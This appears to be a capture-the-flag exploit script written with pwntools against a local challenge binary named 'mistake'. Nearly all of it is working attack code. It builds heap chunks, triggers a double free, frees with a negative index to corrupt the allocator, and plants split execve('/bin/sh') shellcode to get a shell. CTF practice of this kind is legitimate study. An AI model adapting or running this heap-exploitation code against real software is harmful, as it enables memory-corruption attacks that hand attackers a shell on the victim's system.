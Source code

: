 ```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from pwn import *

# context.log_level = 'debug'

shellcode1 = "jhH\xb8/bin///sP\xeb\x21"
shellcode2 = "H\x89\xe71\xf6j;X\x99\x0f\x05"
p = process('./mistake')

def double_free():
	p.sendline('3')
	p.sendline('47')
	print p.recv()
	p.sendline('3')
	p.sendline('0')
	print p.recv()
	p.sendline('3')
	p.sendline('46')
	print p.recv()

def malloc_fd():
	p.sendline('1')
	p.sendline(p64(0x602080-8))
	print p.recv()
	p.sendline('1')
	p.sendline(shellcode2)
	print p.recv()
	p.sendline('1')
	p.sendline(shellcode2)
	print p.recv()

def free_del():
	for x in xrange(3):
		p.sendline('3')
		p.send(str(0xfffffffd))
		print p.recv()

def create_chunk():
	for x in xrange(0x31):
		p.sendline('1')
		print p.recv()
		if x == 1:
			p.sendline(p64(0)+p64(0x21))
		else:
			p.sendline(shellcode2)
		print p.recv()

create_chunk()
print "===create over=========="
double_free()
print "====double free over===="
free_del()
print "=====del over=========="
malloc_fd()

# 控制chunk_number
p.sendline('1')
p.send(p64(0xffffffef))

print p.recv()

```